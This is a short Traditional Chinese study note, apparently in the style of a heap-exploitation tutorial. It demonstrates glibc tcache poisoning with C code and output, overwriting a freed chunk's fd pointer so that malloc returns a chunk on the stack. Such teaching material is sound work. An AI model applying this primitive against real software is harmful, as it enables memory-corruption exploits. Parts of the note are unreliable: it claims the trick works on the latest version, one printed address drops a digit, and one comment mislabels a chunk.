


|||
|-|-|
|版本|latest|
|效果|可以構造一個allocated chunk在任意writable address上|

### 先malloc兩個以上的tcache

```c
unsigned long int *ptr0, *ptr1;
int target;

ptr0 = malloc(0x10);
ptr1 = malloc(0x10);
target = 0xdead;

printf("chunk 1: %p\n", ptr0);
printf("chunk 2: %p\n", ptr1);
printf("int:  %p\n\n", &target);
```

output

```txt
chunk 1: 0x26122260
chunk 2: 0x26122280
int:  0x7ffc6c21674
```



### free

```c
free(ptr0); //tcache -> Chunk0
free(ptr1); //tcache -> Chunk1 -> Chunk0
```

### 竄改fd成target

```c
*ptr1 = (unsigned long long)&target; //tcache -> target
```



### malloc

這時候應該能看到malloc了一塊heap到stack上了

```c
unsigned long int *ptr2, *ptr3;
ptr2 = malloc(0x10);
ptr3 = malloc(0x10);
printf("Chunk 3: %p contains: %lx\n", ptr2, *ptr2); //chunk1, tcache -> target
printf("Chunk 4: %p contains: %lx\n", ptr3, *ptr3); //chunk0, tcache -> null
```

```txt
Chunk 3: 0x26122280 contains: 7ffc6c216740
Chunk 4: 0x7ffc6c216740 contains: dead
```
